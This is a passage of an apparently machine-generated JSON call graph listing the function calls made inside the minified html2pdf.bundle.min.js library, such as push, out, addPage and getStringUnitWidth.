{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newStreamObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addGraphicsState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addGraphicsState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "move2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arc2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip_fixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newStreamObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addGraphicsState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "width"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFillStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setStrokeStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineCap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setLineJoin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTextBaseline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTextBaseline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTextAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTextAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createArc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clip_fixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trimLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trimRight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trimLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setBlockBoundary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setBlockStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sHashCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "executeWatchFunctions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getNumberOfPages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "table"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setBlockBoundary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sHashCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "writeln"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCoordinateString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getVerticalCoordinateString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPdfColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pdfEscape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitFragmentsIntoLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getVerticalCoordinateString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitFragmentsIntoLines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getVerticalCoordinateString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderParagraph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObjectDeferredBegin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 